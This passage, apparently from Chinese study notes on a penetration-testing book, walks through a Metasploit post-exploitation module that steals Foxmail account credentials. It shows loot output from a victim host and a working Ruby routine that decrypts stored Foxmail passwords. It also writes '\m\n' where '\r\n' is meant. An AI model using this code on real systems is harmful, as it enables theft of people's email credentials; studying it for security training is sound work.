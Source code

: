 接着说我们的模块。`store_loot`会把登陆凭证保存到文件中：

```
msf > loot

Loot
====

host           service  type              name     content     info              path
----           -------  ----              ----     -------     ----              ----
172.16.56.108           Foxmail Accounts  Fox.txt  text/plain  FoxMail Accounts  /Users/rambo/.msf4/loot/20181023071859_default_172.16.56.108_FoxmailAccounts_883935.txt
```

最后的解密函数：

```ruby
    def decrypt(hash_real, dir_list)
        decoded = ""
        magic = Array[126, 100, 114, 97, 71, 111, 110, 126]
        fc0 = 90
        size = (hash_real.length - 1) / 2
        index = 0
        b = Array.new(size)
        for i in 0..size-1 do
            b[i] = (hash_real[index, 2]).hex
            index = index + 2
        end
        b[0] = b[0] ^ fc0
        double_magic = magic + magic
        d = Array.new(b.length - 1)
        for i in 1..b.length-1 do
            d[i-1] = b[i] ^ double_magic[i-1]
        end
        e = Array.new(d.length)
        for i in 0..d.length-1 do
            if(d[i] - b[i] < 0)
                e[i] = d[i] + 255 - b[i]
            else
                e[i] = d[i] - b[i]
            end
            decoded << e[i].chr
        end
        print_good("Found username #{dir_list} with password: #{decoded}")
        return decoded
    end
end
```

注意，书中的代码有错：`decrypt`函数中的`size = (hash_real.length) / 2 - 1`应为`size = (hash_real.length - 1) / 2`。不过凑巧的是，Ruby似乎不对数组越界进行检查，所以在这条语句后的第一个for循环中访问并使用了`b[13]`这个位置，即使b数组的长度只有13，也没有出错。

`hash_real.length`为什么要减1呢？这是因为我们前面`read_file(full_path_mail).split("\n")`是以`\n`来分割文件中的行，而Windows系统中行结尾都是`\m\n`。减1是为了把这个`\m`去掉。
